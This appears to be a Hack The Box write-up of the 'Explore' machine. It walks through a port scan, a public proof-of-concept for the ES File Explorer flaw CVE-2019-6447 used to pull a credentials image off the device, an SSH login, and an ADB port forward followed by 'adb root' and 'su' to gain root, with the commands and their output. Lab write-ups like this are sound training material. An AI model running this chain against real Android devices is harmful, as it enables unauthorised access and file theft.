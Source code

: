 ```yaml
---
layout: post
title: HTB Explore Writeup  
subtitle: Easy Box
cover-img: /assets/img/explore.png
thumbnail-img: /assets/img/explore.png
tags: [HTB]
---
```


# Notes
IP:10.10.10.247

## Port Scan
```
PORT      STATE    SERVICE                                                                                            
2222/tcp  open     EtherNetIP-1                                                                                       
5555/tcp  filtered freeciv                                                                                            
39773/tcp open     unknown                                                                                            
42135/tcp open     unknown                                                                                            
59777/tcp open     unknown 

```
## Port 2222
SSH-2.0-SSH Server - Banana Studio 

## Port 5555
This port is being used by Android Debug Bridge (adb) and is filtered

## Port 59777
A quick google search showed that port 59777 is used by ES File Explorer. ES File Explorer is a file manager/explorer for android devices. It looks like there is a CVE for ES File Explorer CVE:2019-6447, I used a poc script I found on github https://github.com/fs0c131y/ESFileExplorerOpenPortVuln. This script lets me list and download files off the device.

There was a great write up of this bug https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566 

Using the tool I was able to find a file called "creds.jpg"

```
┌──(root💀kali)-[~/htb/explore]
└─# python3 poc.py --cmd listPics --ip 10.10.10.247 
[*] Executing command: listPics on 10.10.10.247
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}

```

I downloaded it

```
┌──(root💀kali)-[~/htb/explore]
└─# python3 poc.py -g /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247 
[*] Getting file: /storage/emulated/0/DCIM/creds.jpg
        from: 10.10.10.247
[*] Server responded with: 200
[*] Writing to file: creds.jpg
                               
```

It was a picture of some credentials `kristi:Kr1sT!5h@Rp3xPl0r3!`

## User Shell

I was able to ssh into it by using the credentials found 

```
┌──(root💀kali)-[~/htb]
└─# ssh -p 2222 kristi@10.10.10.247
Password authentication
Password: 
```

Looking inside `/sdcard` I found the user flag

## Root
Back when I did my nmap scan port 5555 was running adb. Now that we have a valid ssh session we can port forward back to kali and access adb

I found the commands for abd here https://adbshell.com/

Port forward
`ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555`

Connect to abd
`adb connect 127.0.0.1:5555`

We can restart the adb service as root
`adb root`

From there adb is running with high privs so we can drop into a shell and su to root
```
──(root💀kali)-[~/htb]
└─# adb shell                                                                                                                                                                                                                            1 ⨯
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
x86_64:/ $ su
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0

```
